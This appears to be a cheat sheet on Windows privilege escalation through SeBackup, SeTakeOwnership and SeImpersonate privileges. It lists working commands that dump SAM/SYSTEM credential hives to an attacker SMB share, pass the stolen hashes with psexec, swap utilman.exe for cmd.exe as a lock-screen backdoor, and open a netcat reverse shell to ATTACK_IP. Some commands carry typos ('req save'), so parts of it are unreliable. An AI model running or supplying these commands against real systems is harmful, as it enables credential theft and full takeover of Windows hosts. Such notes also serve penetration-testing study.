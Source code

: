 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

#### req save hklm\system c:\users\user\system.hive

#### req save hklm\sam c:\users\user\sam.hive

#### 2: Create SMB Server on attacking machine

#### 1: mkdir share

#### 2: python3 impacket-smbserver.py -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

#### copy c:\users\user\sam.hive \\ATTACK_IP\public\

#### copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

#### python3 impacket-secretsdump.py -sam sam.hive -system system.hive LOCAL

#### 5: Pass-The-Hash Attack (PtH)

#### python3 impacket-psexec.py -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'


## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: takeown /f c:\windows\system32\utilman.exe

#### 2: icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: copy cmd.exe utilman.exe

#### 4: Trigger uitlman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

#### c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0
